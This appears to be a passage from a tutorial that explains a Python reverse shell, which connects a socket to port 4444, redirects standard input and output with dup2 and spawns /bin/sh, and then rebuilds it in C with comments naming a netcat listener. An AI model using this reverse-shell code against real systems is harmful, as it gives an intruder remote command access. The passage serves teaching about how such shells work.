 Let's analyze the instructions:

```py
import socket, os, pty

s = socket.socket()
s.connect(("127.0.0.1", 4444))

# s.fileno() returns the File Descriptor associated with the socket
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]

pty.spawn("/bin/sh")
```

First, it creates a TCP `socket` and connects it to `127.0.0.1:4444`. After that, it uses the function `dup2` in order to redirect `stdin`, `stdout`, and `stderr` towards the socket.

Finally, it executes `/bin/sh`. Let's see if my C version works:

```cpp
#include <netinet/ip.h>

int main() {
    int client_socket_fd;

    // define an array made up of 1 value: 0
    // this way I don't have to pass NULL pointers to execve
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    // create a TCP socket
    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    // connect to 127.0.0.1:4444
    // where netcat is listening
    // /bin/sh -c "nc -v -l 4444"
    client_address.sin_family = AF_INET;

    // convert the IP address to an 'in_addr' struct
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);

    // connect to the socket
    connect(client_socket_fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));

    // redirect stdin/stdout/stderr to the socket
    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    // now that the standard file descriptors are redirected
    // once we spawn /bin/sh, input/output/error are going to be bound
    //      to the socket
    execve("/bin/sh", empty, empty);
}
```
